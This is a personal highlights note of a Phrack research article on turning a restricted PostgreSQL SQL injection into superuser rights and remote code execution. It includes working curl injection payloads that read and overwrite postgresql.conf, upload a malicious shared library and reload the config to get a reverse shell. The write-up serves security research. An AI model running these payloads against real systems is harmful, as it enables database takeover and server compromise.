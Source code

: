 ```yaml
---
author: phrack.org
aliases:
  - ".:: Phrack Magazine ::."
tags:
  - readwise/articles
url: https://phrack.org/issues/71/8#article?__readwiseLocation=
date: 2025-04-24
summary: Phrack Magazine is an online publication focused on hacking and technology. It features articles, tutorials, and discussions on various topics related to computer security. The magazine is known for its contributions to the hacker community.
---
```

# .:: Phrack Magazine ::.

## Intro

This article tells the story of how a failed attempt to exploit a basic [SQL Injection](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/SQL%20Injection.md) in a web API with the [PostgreSQL](../../Dev,%20ICT%20&%20Cybersec/Services/PostgreSQL.md) DBMS quickly spiraled into 3 months of researching database source code and (hopefully) helping to create several new techniques to pwn Postgres hosts in restrictive contexts. [](https://read.readwise.io/read/01jh5acztbaeh79tf3yr8gpwv0)

The target web app was written in the Golang Gin[0] framework and used PGX[1] as a DB driver. What is interesting about the application is the fact that it is a trusted public data repository - anyone can query all data. The updates, however, are limited to a trusted set of users. This means that getting a SELECT SQL injection will have no impact on the application, while DELETE and UPDATE ones will still be critical. [](https://read.readwise.io/read/01jh5adgz4rfa893pzx8rxm9wk)

It turns out that the PGX developers decided to **secure** driver use by converting any SQL query to a prepared statement under the hood. [](https://read.readwise.io/read/01jh5af6s2ezx2xx9m0rw67ver)

So, we are suddenly constrained to a single SELECT query! The DBMS will reject any stacked queries, and nested UPDATE or DELETE queries are also prohibited by the SQL syntax. [](https://read.readwise.io/read/01jh5aheb1yv7z0zj6rfjx5txm)

## Abusing server-side lo_ functions 

Not all hope is lost, though! Since nested SELECT SQL queries are allowed, we can try to call some of the built-in PostgreSQL functions and see if there are any that can help us.

PostgreSQL has several functions that allow reading files from and writing to the server running the DBMS. These functions[4] are a part of the PostgreSQL **Large Objects functionality**, and should be accessible to the superusers by default: 
1. `lo_import(path_to_file, lo_id)` - read the file into the DB large object 
2. `lo_export(lo_id, path_to_file)` - dump the large object into a file 

What files can be read? [](https://read.readwise.io/read/01jh5ajngmrjx5zhq4j3ryp40e)

```sh
$ cat /etc/passwd | grep postgres
postgres:x:129:129::/var/lib/postgresql:/bin/bash

$ find / -uid 129 -type f -perm -600 2>/dev/null
...
/var/lib/postgresql/data/postgresql.conf       <---- main service config
/var/lib/postgresql/data/pg_hba.conf           <---- authentication config
/var/lib/postgresql/data/pg_ident.conf         <---- psql username mapping
...
/var/lib/postgresql/13/main/base/1/2654        <---- some data files
/var/lib/postgresql/13/main/base/1/2613
```

There already is an RCE technique, initially discovered by Denis Andzakovic[5] and sylsTyping[6] in 2021 and 2022, which takes advantage of the `postgresql.conf` file. It involves overwriting the config file and either waiting for the server to reboot or forcefully reloading the configuration via the `pg_reload_conf()` PostgreSQL function[7]. [](https://read.readwise.io/read/01jh5aknr4pdb95m0x1a0abd4f)

```sh
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337, CAST((SELECT lo_import('/var/lib/postgresql/data/postgresql.conf', 31337)) AS text)"
[
{"id":1337,"text":"31337"}
]

$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337, CAST((SELECT lo_get(31337)) AS text)"
[
{"id":1337,"text":"\\x23202d2d2d...72650a"}
]
```

Our test user has explicit permissions over the large object functions but lacks access to anything else. [](https://read.readwise.io/read/01jh5apdd1yg14kgmcb3zfc4wy)

## Looking for a privesc

If we want to perform RCE through the configuration file reliably, we must find a way to become a superuser and call `pg_reload_conf()`. Unlike the popular topic of PostgreSQL RCE techniques, there is not a whole lot of information about privilege escalation from within the DB. 

Luckily for us, the official documentation page for Large Object functions gives us some clues for the next steps[4]:
> It is possible to GRANT use of the server-side `lo_import` and `lo_export` functions to non-superusers, but careful consideration of the security implications is required. A malicious user of such privileges could easily parlay them into becoming superuser (for example by rewriting server configuration files) 

What if we were to modify the PostgreSQL table data directly, on disk, without any UPDATE queries at all? [](https://read.readwise.io/read/01jh5ar45ds08dwrcve7nagmxn)

## Identifying target table 

So, we are looking to escalate our permissions to those of a DBMS superuser. Which table should we aim to modify? 
All Postgres permissions are stored in the internal table "pg_authid". All CREATE/DROP/ALTER statements for new roles and users actually modify this table under the hood. [](https://read.readwise.io/read/01jh5axmdxq6pvg91jdhacp3px)

To become a superuser, we must flip all boolean fields to True for our user, "poc_user". [](https://read.readwise.io/read/01jh5ay8t930bczk4xpvdq5a33)

## Flushing Hot storage 

So, you may be wondering - how can we force the server to clean the RAM cache? How about creating a Large Object of a size matching the entire cache pool? :DDDDD [](https://read.readwise.io/read/01jh5b1bh1j1t5s0webbqdzckp)

The server took at least 5 seconds to process our query, which may indicate our success. Let's check our permissions again: [](https://read.readwise.io/read/01jh5b1rm8ea50g8phmfgwe6bh)
Success! All "rol" flags were flipped to true! Can we reload the config now? [](https://read.readwise.io/read/01jh5b1wy4y2b8v13qhe7drqmk)

## SELECT-only RCE 
## Reading original postgresql.conf [](https://read.readwise.io/read/01jh5b3rbp110hdh7gprgadahy)

### Choosing a parameter to exploit 

There are several known options that can already be used for an RCE: - ssl_passphrase_command (by Denis Andzakovic[5]) - archive_command (by sylsTyping[6]) But are any other parameters worth looking into? [](https://read.readwise.io/read/01jh5b5ack7j91sxj6gz4q4xv2)


-------------------------------------------------------------------------- $ cat postgresql.conf ... # - Shared Library Preloading - #local_preload_libraries = '' #session_preload_libraries = '' #shared_preload_libraries = '' # (change requires restart) ... # - Other Defaults - #dynamic_library_path = '$libdir' -------------------------------------------------------------------------- These parameters specify libraries to be loaded dynamically by the DBMS from the path specified in the "dynamic_library_path" variable, under specific conditions. That sounds promising! We will focus on the "session_preload_libraries" variable, which dictates what libraries should be preloaded by the server on a new connection[11]. It does not require a restart of the server, unlike "shared_preload_libraries", and does not have a specific prefix prepended to the path like the "local_preload_libraries" variable. So, we can rewrite the malicious postgresql.conf to have a writable directory in the "dynamic_library_path", e.g. /tmp, and to have a rogue library filename in the "shared_preload_libraries", e.g. "payload.so". [](https://read.readwise.io/read/01jh5b7gm1119p3kmjwjq00jg0)



---[ 4.3 - Uploading the config and library to the server [](https://read.readwise.io/read/01jh5b86gyx9mkpydx5dxqs2dt)



-------------------------------------------------------------------------- $ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \ "id=-1 UNION SELECT 1337,CAST((SELECT lo_from_bytea(3331333337, decode('$(base64 -w 0 postgresql_new.conf)', 'base64'))) AS text)" [ {"id":1337,"text":"3331333337"} ] $ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \ "id=-1 UNION SELECT 1337,CAST((SELECT lo_export(3331333337, '/etc/postgresql/13/main/postgresql.conf')) AS text)" [{"id":1337,"text":"1"}] -------------------------------------------------------------------------- Uploading the malicious .so file: -------------------------------------------------------------------------- $ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \ "id=-1 UNION SELECT 1337,CAST((SELECT lo_from_bytea(33313333337, decode('$(base64 -w 0 payload.so)', 'base64'))) AS text)" [ {"id":1337,"text":"33313333337"} ] $ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \ "id=-1 UNION SELECT 1337,CAST((SELECT lo_export(33313333337, '/tmp/payload.so')) AS text)" [{"id":1337,"text":"1"}] -------------------------------------------------------------------------- [](https://read.readwise.io/read/01jh5b8dwa405d8zy77qfz01ds)



---[ 4.4 - Reload successful We are all set. Now for the moment of glory! A quick config reload and we get a reverse shell back from the server. -------------------------------------------------------------------------- $ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \ "id=-1 UNION SELECT 1337, CAST((SELECT pg_reload_conf()) AS text)" [ {"id":1337,"text":"true"} ] -------------------------------------------------------------------------- [](https://read.readwise.io/read/01jh5b8zd7fs8zxacrhndxxhvy)



--[ 5 - Conclusions In this article, we managed to escalate the impact of a seemingly very restricted SQL injection to a critical level by recreating DELETE and UPDATE statements from scratch via the direct modification of the DBMS files and data, and develop a novel technique of escalating user permissions! [](https://read.readwise.io/read/01jh5b9g0s279z16da5r83mc5f)



--[ 6 - References [0] https://github.com/gin-gonic/gin [1] https://github.com/jackc/pgx [2] https://github.com/jackc/pgx/issues/1090 [3] https://github.com/postgres/postgres/blob/2346df6fc373df9c5ab944eebecf7d3036d727de/src/backend/tcop/postgres.c#L1468 [4] https://www.postgresql.org/docs/current/lo-funcs.html [5] https://pulsesecurity.co.nz/articles/postgres-sqli [6] https://thegrayarea.tech/postgres-sql-injection-to-rce-with-archive-command-c8ce955cf3d3 [7] https://www.postgresql.org/docs/9.4/functions-admin.html [8] https://www.postgresql.org/docs/current/storage-hot.html [9] https://www.postgresql.org/docs/current/storage-page-layout.html [10] https://github.com/adeadfed/postgresql-filenode-editor [11] https://postgresqlco.nf/doc/en/param/session_preload_libraries/ [12] https://www.manniwood.com/2020_12_21/read_pg_from_go.html [](https://read.readwise.io/read/01jh5b9pqgs4ee2vw5rcnz61qm)

